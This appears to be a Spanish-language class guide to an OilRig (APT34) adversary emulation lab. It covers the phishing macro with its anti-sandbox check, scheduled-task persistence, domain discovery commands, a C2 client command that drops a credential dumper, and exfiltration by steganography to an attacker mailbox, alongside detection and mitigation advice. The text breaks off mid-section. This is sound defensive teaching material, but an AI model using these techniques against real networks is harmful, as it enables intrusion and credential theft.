

**LINKS DE LA GRABACIÓN DE LA CLASE**: Clase 04

## **Tabla de Contenidos**

- [Parte 1: Introducción y Contexto](#parte-1-introducción-y-contexto)
  - [1.1 Perfil del Actor de Amenaza](#11-perfil-del-actor-de-amenaza)
  - [1.2 Visión General del Ataque](#12-visión-general-del-ataque)
- [Parte 2: Análisis de la Cadena de Ataque](#parte-2-análisis-de-la-cadena-de-ataque)
  - [Fase 1: Acceso Inicial y Establecimiento](#fase-1-acceso-inicial-y-establecimiento)
  - [Fase 2: Movimiento Lateral hacia Exchange](#fase-2-movimiento-lateral-hacia-exchange)
  - [Fase 3: Compromiso del Servidor SQL y Exfiltración](#fase-3-compromiso-del-servidor-sql-y-exfiltración)
- [Parte 3: Análisis Técnico Profundo](#parte-3-análisis-técnico-profundo)
  - [3.1 Análisis de Malware](#31-análisis-de-malware)
  - [3.2 Infraestructura del Ataque](#32-infraestructura-del-ataque)
  - [3.3 Ingeniería de Detección](#33-ingeniería-de-detección)
- [Parte 4: Guía de Laboratorio Práctico](#parte-4-guía-de-laboratorio-práctico)
  - [4.1 Configuración del Entorno](#41-configuración-del-entorno)
  - [4.2 Ejecución de la Emulación](#42-ejecución-de-la-emulación)
  - [4.3 Ejercicios para el Equipo Azul](#43-ejercicios-para-el-equipo-azul)
- [Parte 5: Apéndices](#parte-5-apéndices)

---

## **Parte 1: Introducción y Contexto**

### **1.1 Perfil del Actor de Amenaza**

#### **¿Quién es OilRig (APT34)?**

OilRig, también conocido como APT34, Helix Kitten, o Cobalt Gypsy, es un grupo de amenaza persistente avanzada (APT) que ha sido atribuido con alta confianza a actores patrocinados por el estado iraní. El grupo ha estado activo desde al menos 2014 y ha demostrado capacidades sofisticadas en operaciones de ciberespionaje.

#### **Contexto Histórico**

Cronología de Actividad:
- **2014-2015**: Primeras operaciones documentadas contra objetivos en Oriente Medio
- **2016-2017**: Expansión de campañas hacia el sector energético y financiero
- **2018**: Descubrimiento de las campañas DNSpionage y herramientas como Helminth
- **2019-2020**: Evolución del arsenal con SideTwist, RDAT y otras herramientas personalizadas
- **2021**: Documentación de campañas actualizadas por Check Point Research

#### **Objetivos Típicos**

OilRig ha demostrado un interés consistente en los siguientes sectores:

1. **Energía e Infraestructura Crítica**
   - Compañías petroleras y de gas
   - Empresas de servicios públicos
   - Infraestructura energética

2. **Sector Gubernamental**
   - Ministerios y agencias gubernamentales
   - Organizaciones diplomáticas
   - Entidades de defensa

3. **Sector Financiero**
   - Instituciones bancarias
   - Servicios financieros
   - Empresas de inversión

4. **Telecomunicaciones y Tecnología**
   - Proveedores de servicios de telecomunicaciones
   - Empresas de tecnología
   - Proveedores de servicios gestionados

#### **Perfil Geográfico**

El grupo ha dirigido sus operaciones principalmente hacia:
- Oriente Medio (Arabia Saudita, Emiratos Árabes Unidos, Qatar)
- Estados Unidos
- Europa (especialmente objetivos con intereses en Oriente Medio)
- Asia (Corea del Sur, Japón)

#### **Motivaciones y Objetivos**

Las operaciones de OilRig típicamente buscan:

Objetivos Estratégicos:
- Recopilación de inteligencia sobre infraestructura crítica
- Espionaje económico e industrial
- Monitoreo de entidades políticas y diplomáticas
- Acceso persistente a redes objetivo

Métodos Característicos:
- Campañas de spearphishing altamente dirigidas
- Desarrollo de herramientas personalizadas
- Explotación de servicios públicos (Exchange, VPN)
- Persistencia a largo plazo en redes comprometidas

#### **Sofisticación Técnica**

Nivel de Habilidad: Intermedio a Avanzado

Características Distintivas:
- Desarrollo activo de malware personalizado
- Técnicas de evasión de detección
- Uso creativo de protocolos legítimos (DNS, HTTP, EWS)
- Capacidad de adaptación ante medidas defensivas
- Operaciones de larga duración con objetivos claros

---

### **1.2 Visión General del Ataque**

#### **Descripción del Escenario**

Esta emulación de adversario reproduce una campaña típica de OilRig dirigida a comprometer una organización con el objetivo final de exfiltrar información sensible almacenada en un servidor SQL. El escenario se desarrolla en tres fases distintas que representan la progresión natural de un ataque APT sofisticado.

#### **Narrativa del Ataque**

La campaña comienza cuando un administrador de Exchange Web Services (EWS) llamado Gosta recibe un correo electrónico de spearphishing que aparenta ser documentación de marketing legítima. Al abrir el documento de Microsoft Word adjunto y habilitar las macros, Gosta inadvertidamente permite la instalación del backdoor SideTwist en su estación de trabajo.

Una vez establecido el acceso inicial, los atacantes realizan reconocimiento exhaustivo del entorno, descubriendo que Gosta posee privilegios administrativos sobre el servidor de Exchange. Aprovechando esta información, los atacantes roban las credenciales de Gosta y las utilizan para moverse lateralmente hacia el servidor Exchange.

En el servidor Exchange, los atacantes instalan el webshell TwoFace, que proporciona persistencia adicional y capacidades de comando y control. Desde esta posición privilegiada, los atacantes descubren la existencia de un servidor SQL que contiene datos críticos de infraestructura.

Para alcanzar el servidor SQL, los atacantes roban credenciales privilegiadas de un administrador SQL llamado Tous mediante el uso de Mimikatz. Utilizando estas credenciales comprometidas, ejecutan movimiento lateral hacia el servidor SQL mediante pass-the-hash y PsExec.

Finalmente, los atacantes despliegan el backdoor RDAT en el servidor SQL, lo utilizan para localizar y copiar archivos de respaldo de base de datos, y exfiltran estos datos a través de la API de Exchange Web Services hacia una cuenta de correo electrónico controlada por los atacantes. La exfiltración se realiza ocultando los datos dentro de imágenes BMP adjuntas a correos electrónicos, una técnica de esteganografía que dificulta la detección.

#### **Arquitectura del Entorno Objetivo**

**Topología de Red:**

```
Internet
    |
    v
[Atacante: 192.168.0.4]
[Servidor Mail: 192.168.0.5]
    |
    v
[Red Corporativa: 10.1.0.0/24]
    |
    +-- [Controlador de Dominio: DISKJOCKEY - 10.1.0.4]
    |
    +-- [Estación de Trabajo: THEBLOCK - 10.1.0.5]
    |   Usuario: BOOMBOX\gosta (Administrador EWS)
    |
    +-- [Servidor Exchange: WATERFALLS - 10.1.0.6]
    |   Servicios: OWA, EAC, EWS API
    |
    +-- [Servidor SQL: ENDOFROAD - 10.1.0.7]
        Usuario Privilegiado: BOOMBOX\tous (Administrador SQL)
        Datos Críticos: sitedata_db.bak
```



**Componentes de Infraestructura del Atacante:**

1. **Plataforma de Ataque Linux (192.168.0.4)**
   - Sistema Operativo: Kali Linux 2019.2
   - Función: Servidor C2 para SideTwist
   - Servicios: Servidor HTTP (puerto 443)
   - Herramientas: FreeRDP, curl, herramientas de pentesting

2. **Servidor de Correo y Archivos (192.168.0.5)**
   - Sistema Operativo: Kali Linux 2019.2
   - Función: Entrega de spearphishing
   - Servicios: Postfix (SMTP), Apache (HTTP)
   - Payloads: Marketing_Materials.zip

#### **Las Tres Fases del Ataque**

##### **Fase 1: Acceso Inicial y Establecimiento (Pasos 1-3)**

**Objetivo:** Establecer presencia inicial y recopilar información básica

**Resumen de Actividades:**
- Spearphishing con documento Word malicioso
- Despliegue del backdoor SideTwist vía macros VBA
- Establecimiento de persistencia mediante tarea programada
- Reconocimiento inicial del sistema comprometido
- Robo de credenciales de bajo privilegio con VALUEVAULT

**Herramientas Utilizadas:**
- Documento Word con macros maliciosas
- SideTwist (backdoor HTTP)
- VALUEVAULT (volcado de credenciales)

**Resultados Clave:**
- Acceso persistente a la estación de trabajo de Gosta
- Descubrimiento de membresía en grupo "EWS Admins"
- Obtención de credenciales en texto claro de Gosta
- Identificación del servidor Exchange (WATERFALLS)

##### **Fase 2: Movimiento Lateral hacia Exchange (Pasos 4-7)**

**Objetivo:** Comprometer el servidor Exchange y establecer acceso privilegiado

**Resumen de Actividades:**
- Instalación del webshell TwoFace en el servidor Exchange
- Reconocimiento del servidor Exchange
- Volcado de credenciales privilegiadas con Mimikatz
- Establecimiento de túnel RDP mediante plink
- Movimiento lateral hacia Exchange usando credenciales de Gosta

**Herramientas Utilizadas:**
- TwoFace (webshell personalizado en ASP.NET)
- Mimikatz (volcado de credenciales de memoria LSASS)
- Plink (túnel SSH para RDP)

**Resultados Clave:**
- Persistencia adicional vía webshell
- Acceso RDP al servidor Exchange
- Credenciales NTLM del administrador SQL (Tous)
- Descubrimiento del servidor SQL (ENDOFROAD)

##### **Fase 3: Compromiso del Servidor SQL y Exfiltración (Pasos 8-11)**

**Objetivo:** Acceder al servidor SQL, localizar datos sensibles y exfiltrarlos

**Resumen de Actividades:**
- Pass-the-hash con credenciales de Tous
- Movimiento lateral hacia SQL Server mediante PsExec
- Despliegue del backdoor RDAT
- Descubrimiento de archivos de respaldo de base de datos
- Exfiltración mediante API EWS con esteganografía
- Limpieza de artefactos y salida

**Herramientas Utilizadas:**
- Mimikatz (pass-the-hash)
- PsExec (ejecución remota)
- RDAT (backdoor de exfiltración)
- API de Exchange Web Services

**Resultados Clave:**
- Acceso al servidor SQL como administrador
- Localización de archivos de respaldo críticos
- Exfiltración exitosa de datos vía EWS API
- Limpieza de evidencia forense

#### **Flujo de Datos del Ataque**

```
[Spearphishing Email]
        ↓
[Documento Word Malicioso]
        ↓
[Macro VBA ejecuta]
        ↓
[SideTwist instalado en THEBLOCK]
        ↓
[Callback a C2: 192.168.0.4:443]
        ↓
[Reconocimiento + VALUEVAULT]
        ↓
[Credenciales de Gosta obtenidas]
        ↓
[TwoFace webshell → WATERFALLS]
        ↓
[Mimikatz → Credenciales de Tous]
        ↓
[Pass-the-hash + PsExec → ENDOFROAD]
        ↓
[RDAT instalado en SQL Server]
        ↓
[Archivos .bak fragmentados en chunks]
        ↓
[Esteganografía en archivos BMP]
        ↓
[Exfiltración vía EWS API]
        ↓
[Buzón atacante: sistan@shirinfarhad.com]
```


#### **Mapeo a MITRE ATT&CK**

Esta campaña demuestra técnicas a lo largo de toda la matriz ATT&CK:

| Táctica | Cantidad de Técnicas | Ejemplos Principales |
|---------|---------------------|---------------------|
| Reconnaissance | 2 | T1592, T1589 |
| Resource Development | 3 | T1583, T1587, T1588 |
| Initial Access | 2 | T1566.002 (Phishing: Spearphishing Link) |
| Execution | 4 | T1204.002, T1059.005, T1569.002 |
| Persistence | 3 | T1053.005, T1505.003 |
| Privilege Escalation | 2 | T1078.002, T1068 |
| Defense Evasion | 6 | T1027, T1036, T1564.001, T1070.004 |
| Credential Access | 4 | T1555.004, T1003.001, T1550.002 |
| Discovery | 12 | T1082, T1033, T1016, T1087, T1069, etc. |
| Lateral Movement | 4 | T1021.001, T1021.002, T1570 |
| Collection | 2 | T1005, T1074.001 |
| Command and Control | 4 | T1071.001, T1573.001, T1572, T1105 |
| Exfiltration | 2 | T1041, T1048.003 |

#### **Objetivos de Aprendizaje**

Al completar esta guía educativa, el estudiante será capaz de:

1. **Comprender la Metodología APT**
   - Identificar las fases de un ataque sofisticado
   - Reconocer patrones de comportamiento de actores APT
   - Entender la progresión lógica de un compromiso

2. **Análisis de Técnicas Específicas**
   - Analizar el funcionamiento de backdoors personalizados
   - Comprender técnicas de movimiento lateral
   - Identificar métodos de exfiltración encubierta

3. **Perspectiva Defensiva**
   - Reconocer oportunidades de detección en cada fase
   - Desarrollar estrategias de mitigación efectivas
   - Implementar controles de seguridad apropiados

4. **Aplicación Práctica**
   - Ejecutar emulaciones de adversario en entornos controlados
   - Validar controles de seguridad existentes
   - Desarrollar reglas de detección personalizadas

---

## **Parte 2: Análisis de la Cadena de Ataque**

### **Fase 1: Acceso Inicial y Establecimiento**

#### **Paso 1: Compromiso Inicial y Persistencia**

##### **Objetivo de la Actividad**

Establecer acceso inicial a la red objetivo mediante spearphishing y desplegar el backdoor SideTwist con persistencia a través de una tarea programada en Windows.

##### **Contexto del Escenario**

El usuario Gosta, quien es administrador del servidor Exchange Web Services, recibe un correo electrónico que aparenta provenir de "team@ganjavigms.com" con un enlace para descargar un archivo comprimido llamado "Marketing_Materials.zip". El correo emplea técnicas de ingeniería social para convencer a Gosta de que se trata de documentación legítima relacionada con materiales de marketing.

Al hacer clic en el enlace, Gosta descarga el archivo desde el servidor del atacante (192.168.0.5). El archivo ZIP está protegido con contraseña (!M@rk3ting!) para evadir análisis automatizado de seguridad de correo electrónico. Una vez descomprimido, Gosta encuentra un documento de Microsoft Word llamado "GGMS Overview.doc".

##### **Técnicas MITRE ATT&CK**

**T1566.002 - Phishing: Spearphishing Link**
- El atacante envía un correo dirigido con un enlace a un archivo malicioso
- Utiliza ingeniería social para incentivar la descarga del archivo

**T1204.002 - User Execution: Malicious File**
- Requiere que el usuario abra el documento y habilite macros
- El archivo aparenta ser contenido legítimo de negocios

**T1059.005 - Command and Scripting Interpreter: Visual Basic**
- Las macros VBA ejecutan código malicioso al abrir/cerrar el documento
- Las macros realizan verificaciones anti-sandbox antes de ejecutarse

##### **Flujo de Ejecución Técnica**

**Al abrir el documento:**

1. **Recolección de Variables de Entorno (T1082, T1033)**
   ```vba
   computername = Environ("computername")
   username = Environ("username")
   ```
   - El macro recopila el nombre del equipo y del usuario
   - Esta información se utiliza posteriormente para identificación del beacon

2. **Verificación Anti-Sandbox (T1497.001)**
   ```vba
   If Application.MouseAvailable = False Then Exit Sub
   ```
   - Detecta si hay un mouse disponible
   - Los entornos de análisis automatizado típicamente carecen de mouse
   - Si no se detecta mouse, la macro termina sin ejecutar payload

3. **Extracción del Payload (T1027)**
   - El payload SideTwist está embebido en el documento como Base64
   - Se almacena en `UserForm1.TextBox1.Text`
   - El macro decodifica y escribe el payload a disco

4. **Creación de Directorio y Escritura de Archivos (T1105, T1083)**
   ```
   Directorio: C:\Users\gosta\AppData\Local\SystemFailureReporter\

   Archivos creados:
   - b.doc (realmente un ejecutable, el payload SideTwist)
   - update.xml (archivo vacío usado como killswitch)
   ```

**Al cerrar el documento:**

5. **Segunda Verificación Anti-Sandbox (T1497.001)**
   - Se repite la verificación de `Application.MouseAvailable`
   - Esta doble verificación aumenta la evasión

6. **Renombrado del Payload (T1036)**
   ```
   b.doc → SystemFailureReporter.exe
   ```
   - El nombre hace referencia a componentes legítimos de Windows
   - Busca confundir al usuario y a analistas forenses

7. **Establecimiento de Persistencia (T1053.005)**
   - Crea una tarea programada llamada "SystemFailureReporter"
   - La tarea ejecuta el payload cada 5 minutos
   - Se ejecuta en el contexto del usuario actual (Gosta)

   ```
   Tarea: SystemFailureReporter
   Comando: C:\Users\gosta\AppData\Local\SystemFailureReporter\SystemFailureReporter.exe
   Frecuencia: Cada 5 minutos
   Usuario: BOOMBOX\gosta
   ```

**Cuando SystemFailureReporter.exe se ejecuta:**

8. **Recolección de Información del Sistema (T1082, T1033)**
   - Utiliza GetUserName API para obtener el nombre del usuario actual
   - Utiliza GetComputerName API para obtener el nombre del equipo
   - Utiliza GetDomainName API para obtener el dominio

9. **Establecimiento de Comunicación C2 (T1071.001, T1573.001)**
   ```
   Protocolo: HTTP sobre puerto 443 (sin TLS)
   Servidor C2: 192.168.0.4:443
   Cifrado: XOR con clave estática
   Método: GET/POST requests
   ```

##### **Análisis del Malware: SideTwist**

**Arquitectura del C2:**

El servidor de Comando y Control presenta una página falsa de error de Flickr cuando se accede sin credenciales válidas. Las instrucciones para los implantes se incrustan entre etiquetas `<script>` en el código HTML de la página.

<!-- **Estructura del Comando:**
```
<script>
[base64( XOR_encrypt( comando ) )]
</script>
``` -->

**Proceso de Comunicación:**

1. El implante realiza una petición GET al servidor C2
2. El servidor responde con la página HTML que contiene comandos cifrados
3. El implante extrae el contenido entre etiquetas `<script>`
4. Decodifica el Base64 y descifra usando XOR
5. Ejecuta el comando y captura la salida
6. Cifra la salida usando XOR y la codifica en Base64
7. Envía los resultados al C2 mediante POST request

**Características de Seguridad Operacional:**

- Si el implante no encuentra el archivo `update.xml`, se termina automáticamente (killswitch)
- Las peticiones que no corresponden a implantes registrados reciben solo la página falsa
- El uso de XOR simple permite evasión de inspección SSL/TLS profunda (no hay certificados sospechosos)

##### **Oportunidades de Detección**

**Nivel de Red:**
- Tráfico HTTP en puerto 443 sin TLS (altamente anómalo)
- Beacons periódicos cada 5 minutos hacia IP externa
- Patrón de peticiones HTTP con User-Agent sospechoso
- Transferencia de datos codificados en Base64 en cuerpo de POST

**Nivel de Host:**
- Creación de tarea programada desde proceso WINWORD.EXE
- WINWORD.EXE escribiendo archivos .exe en AppData
- Ejecución de .exe renombrado desde directorio de usuario
- Archivo llamado "update.xml" en ubicación inusual
- Proceso con nombre legítimo iniciado desde ubicación no estándar

<!-- **Nivel de Comportamiento:**
- Proceso ejecutándose cada 5 minutos de forma consistente
- Comunicación de red iniciada por proceso en AppData
- Uso de APIs de sistema (GetUserName, GetComputerName) por proceso no firmado -->

<!-- **Reglas de Detección Ejemplo:**

```yaml
# Sigma Rule Example
title: Tarea Programada Creada por Microsoft Word
status: experimental
logsource:
    product: windows
    service: security
    definition: 'Requiere auditoría de creación de tareas programadas'
detection:
    selection:
        EventID: 4698  # Tarea programada creada
        TaskContent|contains: 'WINWORD.EXE'
    condition: selection
falsepositives:
    - Documentos legítimos que automatizan tareas (muy raro)
level: high
``` -->

##### Estrategias de Mitigación

**Prevención:**
1. **Configuración de Microsoft Office**
   - Deshabilitar macros de documentos descargados de Internet
   - Implementar política de "Deshabilitar todas las macros excepto digitalmente firmadas"
   - Utilizar Protected View para archivos de fuentes no confiables

2. **Controles de Correo Electrónico**
   - Filtrado de archivos comprimidos con contraseña
   - Análisis de sandboxing de archivos adjuntos
   - Validación SPF/DKIM/DMARC rigurosa

3. **Seguridad de Endpoint**
   - Application whitelisting (solo ejecutables firmados)
   - Bloqueo de ejecución desde carpetas de usuario (%APPDATA%, %TEMP%)
   - EDR con detección de comportamiento de macros

**Detección:**
1. **Monitoreo de Tareas Programadas**
   - Alertas sobre creación de tareas desde procesos de Office
   - Validación de ubicación de ejecutables en tareas programadas

2. **Análisis de Tráfico**
   - Detección de HTTP en puerto 443
   - Inspección de contenido Base64 en HTTP POST

3. **Behavioral Analytics**
   - Detección de beaconing periódico
   - Identificación de procesos de corta duración recurrentes

**Respuesta:**
1. Aislar el sistema comprometido de la red
2. Eliminar la tarea programada maliciosa
3. Eliminar el directorio SystemFailureReporter
4. Analizar correos similares en otros buzones
5. Bloquear comunicaciones hacia IP del C2
6. Realizar hunting para identificar otros sistemas comprometidos

---

#### **Paso 2: Discovery en el Workstation**

##### **Objetivo de la Actividad**

Realizar enumeración exhaustiva del sistema comprometido para identificar privilegios del usuario, configuración de red, cuentas de dominio, grupos administrativos y servicios activos que puedan facilitar el movimiento lateral.

##### **Contexto del Escenario**

Una vez establecida la comunicación con el implante SideTwist, los operadores de OilRig proceden a ejecutar una serie de comandos de reconocimiento estándar. Estos comandos se ejecutan a través de `cmd.exe` utilizando las capacidades de ejecución remota de comandos del backdoor.

La información recopilada en esta fase permite a los atacantes comprender el entorno en el que operan y planificar los próximos pasos del ataque. Específicamente, los atacantes buscan identificar:
- Membresías de grupos privilegiados
- Servidores de infraestructura crítica (Exchange, SQL, etc.)
- Configuración de red y conectividad
- Cuentas de alto valor como objetivos potenciales

##### **Técnicas MITRE ATT&CK**

Este paso implementa múltiples técnicas de Discovery:

- **T1033** - System Owner/User Discovery
- **T1082** - System Information Discovery
- **T1016** - System Network Configuration Discovery
- **T1087.002** - Account Discovery: Domain Account
- **T1069.002** - Permission Groups Discovery: Domain Groups
- **T1201** - Password Policy Discovery
- **T1087.001** - Account Discovery: Local Account
- **T1069.001** - Permission Groups Discovery: Local Groups
- **T1049** - System Network Connections Discovery
- **T1057** - Process Discovery
- **T1007** - System Service Discovery
- **T1012** - Query Registry
- **T1018** - Remote System Discovery

##### **Comandos Ejecutados**

Los comandos se ejecutan en dos rondas principales:

**Ronda 1: Reconocimiento Inicial General**

```batch
whoami
```
- **Propósito:** Confirmar el contexto de usuario bajo el cual se ejecuta el implante
- **Salida esperada:** `BOOMBOX\gosta`
- **Valor para el atacante:** Valida el usuario objetivo y el dominio

```batch
hostname
```
- **Propósito:** Identificar el nombre del equipo comprometido
- **Salida esperada:** `THEBLOCK`
- **Valor para el atacante:** Referencia para tracking de sistemas comprometidos

```batch
ipconfig /all
```
- **Propósito:** Enumerar configuración de red completa
- **Información obtenida:**
  - Dirección IP: 10.1.0.5
  - Máscara de subred: 255.255.255.0
  - Gateway predeterminado: 10.1.0.1
  - Servidor DNS: 10.1.0.4 (DISKJOCKEY - Controlador de Dominio)
  - Dominio: boombox.local
  - Adaptadores de red y direcciones MAC

```batch
net user /domain
```
- **Propósito:** Enumerar todas las cuentas de usuario en el dominio
- **Información obtenida:**
  - Lista de usuarios: gosta, tous, mariam, shiroyeh, shiroyeh_admin, etc.
  - Identifica usuarios de interés para comprometer

```batch
net group /domain
```
- **Propósito:** Listar todos los grupos del dominio
- **Grupos descubiertos:**
  - Domain Admins
  - Enterprise Admins
  - EWS Admins (grupo personalizado)
  - SQL Admins (grupo personalizado)
  - Domain Users
  - Otros grupos estándar de Active Directory

```batch
net group "domain admins" /domain
```
- **Propósito:** Identificar miembros del grupo de administradores del dominio
- **Información obtenida:**
  - shiroyeh_admin (cuenta administrativa)
  - Administrator (cuenta integrada)

```batch
net group "Exchange Trusted Subsystem" /domain
```
- **Propósito:** Identificar servidores Exchange en el dominio
- **Información obtenida:**
  - WATERFALLS$ (servidor Exchange)
  - Indica presencia de infraestructura Exchange

```batch
net accounts /domain
```
- **Propósito:** Obtener política de contraseñas del dominio
- **Información obtenida:**
  - Longitud mínima de contraseña
  - Historial de contraseñas
  - Tiempo de bloqueo de cuenta
  - Duración máxima de contraseña
  - Duración mínima de contraseña

```batch
net user
```
- **Propósito:** Listar cuentas de usuario locales en el sistema
- **Información obtenida:**
  - Cuentas locales vs. cuentas de dominio
  - Usuarios que han iniciado sesión en el sistema

```batch
net localgroup administrators
```
- **Propósito:** Identificar miembros del grupo Administradores local
- **Información crítica:**
  - Domain Admins (grupo)
  - BOOMBOX\gosta (usuario actual)
  - Otros administradores locales

```batch
netstat -an
```
- **Propósito:** Identificar conexiones de red activas y puertos en escucha
- **Información obtenida:**
  - Conexiones establecidas a otros sistemas
  - Servicios en escucha (RDP 3389, SMB 445, etc.)
  - Indicios de servidores adicionales en la red

```batch
tasklist
```
- **Propósito:** Enumerar procesos en ejecución
- **Información obtenida:**
  - Software de seguridad activo
  - Aplicaciones instaladas
  - Servicios en ejecución

```batch
sc query
```
- **Propósito:** Listar servicios de Windows y su estado
- **Información obtenida:**
  - Servicios en ejecución vs. detenidos
  - Software de terceros instalado
  - Servicios potencialmente explotables

```batch
systeminfo
```
- **Propósito:** Recopilar información detallada del sistema
- **Información obtenida:**
  - Sistema operativo: Windows 10 Build 17763
  - Arquitectura: x64
  - Dominio: BOOMBOX
  - Hotfixes instalados
  - Configuración de memoria
  - Tiempo de actividad del sistema

```batch
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"
```
- **Propósito:** Identificar conexiones RDP recientes del usuario
- **Información obtenida:**
  - Servidores a los que el usuario se ha conectado vía RDP
  - Potenciales objetivos para movimiento lateral

**Ronda 2: Reconocimiento Enfocado**

Basándose en los resultados de la primera ronda, los atacantes ejecutan comandos más específicos:

```batch
net user gosta /domain
```
- **Propósito:** Obtener información detallada sobre el usuario comprometido
- **Descubrimiento crítico:**
  ```
  Local Group Memberships      *None
  Global Group memberships     *EWS Admins           *Domain Users
  ```
- **Implicación:** Gosta tiene privilegios administrativos sobre el servidor Exchange

```batch
net group "SQL Admins" /domain
```
- **Propósito:** Identificar administradores del servidor SQL
- **Descubrimiento crítico:**
  ```
  Group name     SQL Admins
  Members
  ---------------
  tous
  ```
- **Implicación:** El usuario "tous" es administrador del SQL Server

```batch
nslookup WATERFALLS
```
- **Propósito:** Resolver la dirección IP del servidor Exchange
- **Información obtenida:**
  ```
  Server:  DISKJOCKEY.boombox.local
  Address:  10.1.0.4

  Name:    WATERFALLS.boombox.local
  Address:  10.1.0.6
  ```

##### **Hallazgos Clave del Discovery**

Al finalizar esta fase, los atacantes han identificado:

**Información sobre el Usuario Actual:**
- Usuario: BOOMBOX\gosta
- Miembro de: EWS Admins
- Implicación: Tiene privilegios administrativos sobre WATERFALLS (Exchange Server)

**Infraestructura Crítica Identificada:**
- Controlador de Dominio: DISKJOCKEY (10.1.0.4)
- Servidor Exchange: WATERFALLS (10.1.0.6)
- Servidor SQL: No identificado directamente aún, pero descubierto usuario "tous" como SQL Admin

**Objetivos de Alto Valor:**
- Usuario tous: Administrador SQL (objetivo para robo de credenciales)
- Usuario shiroyeh_admin: Administrador del dominio (objetivo de escalación)
- Servidor WATERFALLS: Objetivo inmediato para movimiento lateral

**Configuración de Seguridad:**
- Política de contraseñas del dominio
- Grupos administrativos personalizados
- Servicios y aplicaciones instaladas

##### **Oportunidades de Detección**

<!-- **Nivel de Endpoint:**

1. **Ejecución de Múltiples Comandos de Reconocimiento**
   - Patrón de comandos de discovery ejecutados en secuencia rápida
   - Comandos `net`, `ipconfig`, `whoami` ejecutados por mismo proceso padre

2. **Uso de Comandos Administrativos por Procesos Inusuales**
   - SystemFailureReporter.exe ejecutando comandos `net group /domain`
   - Proceso desde AppData ejecutando consultas de Active Directory

**Detección Basada en Comportamiento:**

```yaml
# Ejemplo de regla de correlación
title: Secuencia de Comandos de Reconocimiento de Dominio
description: Detecta ejecución de múltiples comandos de reconocimiento en corto período
detection:
    selection:
        CommandLine|contains:
            - 'net user /domain'
            - 'net group /domain'
            - 'net localgroup administrators'
            - 'whoami'
            - 'ipconfig /all'
    timeframe: 5m
    condition: selection | count() > 5
level: high
``` -->

**Indicadores en Logs de Windows:**

- **Event ID 4688** (Process Creation): Creación de procesos cmd.exe por SystemFailureReporter.exe
- **Event ID 4624** (Logon): Actividad de red del implante
- **Event ID 4648** (Logon with Explicit Credentials): Si se utilizan credenciales diferentes

**Indicadores de Red:**

- Múltiples peticiones HTTP POST hacia 192.168.0.4:443
- Contenido Base64 en cuerpo de POST (resultados de comandos)
- Patrón de beaconing consistente

##### **Estrategias de Mitigación**

**Prevención:**

1. **Principio de Menor Privilegio**
   - Los administradores de Exchange no deberían trabajar desde estaciones de trabajo con sus cuentas privilegiadas
   - Implementar cuentas administrativas separadas para tareas administrativas

2. **Hardening de Sistemas**
   - Deshabilitar comandos de reconocimiento innecesarios para usuarios estándar
   - Implementar AppLocker o WDAC para restringir ejecución desde %APPDATA%

3. **Segmentación de Red**
   - Limitar qué sistemas pueden consultar Active Directory
   - Restringir comunicaciones salientes desde estaciones de trabajo

**Detección:**

1. **SIEM y Correlación**
   - Crear reglas que detecten secuencias de comandos de reconocimiento
   - Alertar sobre uso de `net group /domain` desde procesos inusuales

2. **EDR y Behavioral Analytics**
   - Detección de proceso hijo cmd.exe desde procesos no estándar
   - Identificación de patrones de reconocimiento automatizado

3. **Honeytokens**
   - Crear grupos de seguridad señuelo (ej. "VPN Admins", "Backup Admins")
   - Alertar cuando se enumeran estos grupos

**Respuesta:**

1. Investigar el proceso que ejecutó los comandos
2. Revisar historial de comandos ejecutados por el usuario
3. Analizar tráfico de red del sistema comprometido
4. Ejecutar memoria forense para identificar inyección de código
5. Verificar otros sistemas donde el usuario ha iniciado sesión

---

#### **Paso 3: Volcado de Credenciales de Bajo Privilegio**

##### **Objetivo de la Actividad**

Utilizar la herramienta VALUEVAULT para extraer credenciales almacenadas en el Administrador de Credenciales de Windows (Windows Credential Manager) del usuario Gosta, obteniendo así su contraseña en texto claro para facilitar movimiento lateral posterior.

##### **Contexto del Escenario**

Después del reconocimiento, los atacantes han confirmado que Gosta es miembro del grupo "EWS Admins", lo que significa que posee privilegios administrativos sobre el servidor Exchange (WATERFALLS). Sin embargo, para aprovechar estos privilegios, los atacantes necesitan las credenciales reales de Gosta.

OilRig emplea VALUEVAULT, una herramienta personalizada desarrollada en Go que extrae credenciales del Windows Credential Manager sin necesidad de privilegios elevados. Esta herramienta es particularmente efectiva porque muchos usuarios almacenan credenciales para sitios web, servicios de red y aplicaciones en el Credential Manager de Windows.

##### **Técnicas MITRE ATT&CK**

**T1105 - Ingress Tool Transfer**
- SideTwist descarga VALUEVAULT (b.exe) desde el servidor C2
- El archivo se transfiere cifrado con XOR y codificado en Base64

**T1555.004 - Credentials from Password Stores: Windows Credential Manager**
- VALUEVAULT accede al Windows Vault mediante APIs legítimas
- Extrae credenciales almacenadas sin requerir privilegios administrativos

**T1041 - Exfiltration Over C2 Channel**
- Los resultados del volcado se exfiltran a través del canal C2 de SideTwist
- Se utiliza el mismo protocolo HTTP con cifrado XOR

##### **Flujo de Ejecución Técnica**

**Paso 1: Descarga de VALUEVAULT**

El operador envía un comando al implante SideTwist para descargar la herramienta:

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\gosta\AppData\Roaming\b.exe|b.exe'
```

**Desglose del comando:**
- `102`: Código de operación para descarga de archivo
